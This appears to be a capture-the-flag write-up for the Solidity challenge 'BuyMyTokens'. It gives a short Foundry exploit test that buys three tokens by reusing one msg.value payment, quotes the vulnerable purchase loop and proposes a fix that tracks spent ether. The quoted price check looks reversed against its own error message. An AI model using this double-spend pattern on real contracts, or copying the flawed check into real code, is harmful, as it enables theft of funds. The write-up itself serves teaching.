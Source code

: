 # BuyMyTokens Solution
This challange is another challange that requires very little code to exploit. Let's look at the exploit, and dive into why it works:
```
function test_GetThisPassing_5() public {
    address hacker = address(0xBAD);
    

    vm.startPrank(hacker);
    uint256[] memory amounts = new uint256[](3);
    amounts[0] = 12;
    amounts[1] = 6;
    amounts[2] = 4;
    target.purchaseTokens{value: 1.2 ether}(amounts);
    vm.stopPrank();

    assertEq(token1.balanceOf(hacker), 12 ether);
    assertEq(token2.balanceOf(hacker), 6 ether);
    assertEq(token3.balanceOf(hacker), 4 ether);
}
```
All we ned to eploit this smart contract is go through each price and divide it by the amount of ether we have availabale. But shouldn't the function revert if we attempt to double spend our ether?

If you look inside `purchaseTokens()` & `_checkPurchasingPower()`, you will see that we check if the `msg.value` is equal to the price * amount inside of the for loop:
```
function purchaseTokens(uint256[] memory _amounts) external payable {
    require(_amounts.length == 3, "There are 3 tokens");
    for(uint256 i; i < 3; i++) {
        MarqToken token = tokens[i];
        uint256 amount = _amounts[i];
        uint256 price = tokenPrices[token];
        // validation of price inside of a for loop with msg.value
        _checkPurchasingPower(msg.value, amount, price);
        token.mint(amount * 10**18);
        token.transfer(msg.sender, amount * 10**18);
    }
}

// this gets checked inside of the for loop with msg.value
function _checkPurchasingPower(uint256 _amountOfEtherAvailable, uint256 _amount, uint256 _price) internal {
    uint256 cost = _price * _amount;
    require(cost >= _amountOfEtherAvailable, "dont be that guy; pay for your tokens");
}
```
Because we do not keep track of how much of the `msg.value` should be allocated to the previous purchases, each itteration calculates the purchase price with "already spent" ether.
A better solution would involve a variable that keeps track of how much ether we have spent on previous purchases like so:
```
// added var
uint256 availableEther = msg.value;
for(uint256 i; i < 3; i++) {
    MarqToken token = tokens[i];
    uint256 amount = _amounts[i];
    uint256 price = tokenPrices[token];
    // fixed function call
    _checkPurchasingPower(availableEther, amount, price);
    token.mint(amount * 10**18);
    token.transfer(msg.sender, amount * 10**18);
    // keep track of spent ether
    availableEther -= price * amount;
}
```

If you ever see `msg.value` inside of a for loop, you should immeditley be skeptical that the code functions properly.